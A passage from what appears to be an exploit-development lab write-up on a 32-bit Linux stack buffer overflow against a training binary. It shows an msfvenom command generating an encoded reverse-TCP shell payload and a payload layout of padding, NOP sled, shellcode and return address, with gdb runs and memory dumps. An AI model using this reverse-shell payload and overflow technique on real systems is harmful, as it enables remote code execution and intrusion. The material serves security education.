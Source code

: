 **This process must be repeated until all characters that could interrupt the flow are removed.**

## Generating Shellcode 

Before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:
- Architecture
- Platform
- Bad Characters

To generate with **msfvenom**:
```console
zero@pio$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

> We must eliminate the chars with `--bad-chars "<chars"`
{: .prompt-info}


Let's replace our CHAR by the Shellcode:
```
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

Now send it and check it:
```console
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc () 

gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

